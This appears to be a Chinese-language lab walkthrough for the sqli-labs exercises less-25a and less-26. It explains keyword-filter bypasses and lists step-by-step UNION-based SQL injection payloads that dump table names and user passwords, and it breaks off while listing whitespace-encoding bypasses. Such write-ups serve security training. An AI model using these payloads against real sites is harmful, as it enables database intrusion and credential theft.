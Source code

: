 ##### 注入类型

过滤了`or` 和`and`。与less-25不同的就是25a没有输出报错项，不能使用报错注入，并且是数值型注入

##### 绕过方法：

- 大小写变形 Or，OR oR
- 双写绕过（将or或and(过滤字符)替换为空的时候就可以使用双写绕过）
- 编码绕过 hex，urlencode
- 添加注释符/*or\*/
- 利用符号 and=&&   or=||

##### 输入点

输入`id=-1'oorr 1=1 --+ `回显如下  `采用双写绕过过滤，见less-25`

![image-20201115132950169](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114727.png)

输入`id=-1oorr 1=1 --+ `回显如下。所以可以看出是数值型输入

![image-20201115132932219](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114728.png)

##### 输出点：

输出点为2,3位置

![image-20201115133154567](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114729.png)

##### 注入方式

双写绕过，再使用union来注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列(通过select来判断)
- 联合查询，判断各列输出的位置`payload:?id=-1 union select 1,2,3 --+`
- 获取数据库`payload:?id=-1 union select 1,database(),3 --+`
- 爆数据表`payload:?id=-1 union select 1,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()),3 --+`
- 爆users表的数据字段`payload：?id=-1 union select 1,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users'),3 --+`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1 union select 1,(select group_concat(username,'~',passwoorrd) from users), 3 --+`username和password中间使用~来分隔

## less-26(使用5.2的php)

##### 注入类型

过滤了空格，or，and,/*,#(含url编码),--,/做了过滤

##### 绕过方法：

%09  TAB 键（水平） 

%0a  新建一行 
